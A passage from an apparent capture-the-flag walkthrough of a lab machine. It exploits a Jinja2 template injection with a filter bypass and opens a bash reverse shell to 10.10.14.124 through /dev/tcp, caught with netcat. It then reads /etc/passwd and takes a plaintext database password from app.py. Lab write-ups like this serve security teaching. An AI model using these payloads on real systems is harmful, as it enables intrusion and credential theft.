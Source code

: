 In the response, we copy all the subclasses (what's between brackets within the image src) and paste them into a file named `subclasses.txt`.

Once done, we execute the following script to find the position of `Popen` in the subclass list.

```
echo $(($(cat subclasses.txt | tr -d '[]' | tr ',' "\n" | grep -n Popen | awk '{ print $1 }' | tr -d ':') - 1))

365
```

Now that we know its number is `365`, we can execute commands with `().__class__.__base__.__subclasses__().__getitem__(365)('COMMAND',shell=True,stdout=-1).communicate()`.

Let's check if we have RCE by sending ourselves a reverse shell `bash -c "bash -i >& /dev/tcp/10.10.14.124/1234 0>&1"`, this with the bypass will look like this.

```
invoice_id=&form_type=scannable_invoice&class=__class__&base=__base__&subclasses=__subclasses__&getitem=__getitem__&qr_link={{(()|attr(request.form.get('class'))|attr(request.form.get('base'))|attr(request.form.get('subclasses'))()|attr(request.form.get('getitem'))(365)('bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.124/1234+0>%261"',shell=True,stdout=-1)).communicate()}}
```

We listen with netcat to receive the reverse shell on port `1234`.

```
nc -lnvtp 1234
```

Once inside, we check what users have a terminal on the victim machine with the following command.

```
cat /etc/passwd | grep -e "sh$"

root:x:0:0:root:/root:/bin/bash
consuela:x:1000:1000:consuela:/home/consuela:/bin/bash
```

We note down the name `consuela` in case it is useful in the future.

We see that we are in the `/opt/app` directory, where we find a file `app.py`. We will examine it for database credentials.

```
cat app.py

...contenido del archivo...
# Database Configuration
db_config = {
    'host': '127.0.0.1',
    'user': 'iclean',
    'password': 'pxCsmnGLckUb',
    'database': 'capiclean'
}
...contenido del archivo...
```
